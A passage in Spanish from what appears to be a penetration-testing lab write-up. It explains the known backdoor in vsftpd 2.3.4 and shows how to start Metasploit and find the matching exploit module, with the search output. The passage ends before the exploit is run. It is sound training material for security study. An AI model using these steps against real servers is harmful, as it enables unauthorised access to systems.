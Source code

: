     <img src="images/vsftpd.png">
    <figcaption align="center">Fig. 13 - Vulnerabilidades vsftpd</figcaption>
</p>

Esto se debe principalmente a un `backdoor` presente en esta versión en específico de `vsftpd` la cual nos permitiría ganar acceso directo al servidor `FTP` presente en esta máquina. Usando el framework de `metasploit`, podemos usar dicha `backdoor`.

Lo primero es ingresar al framework de metasploit.

```sh
# Ingresamos al framework
$ msfconsole
```

Tras esperar un momento a que inicie, podemos buscar los exploits relacionados con `vsftpd` simplemente escribiendo en la terminal:

```sh
msf6 > search vsftpd

Matching Modules
================

   #  Name                                 Disclosure Date  Rank       Check  Description
   -  ----                                 ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor 2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Como podemos ver, se nos presenta un único exploit relacionado precisamente con la versión `2.3.4` de `vsftpd`. Para poder usar dicho exploit, simplemente debemos indicarle a `msfconsole` que queremos usar dicho exploit.
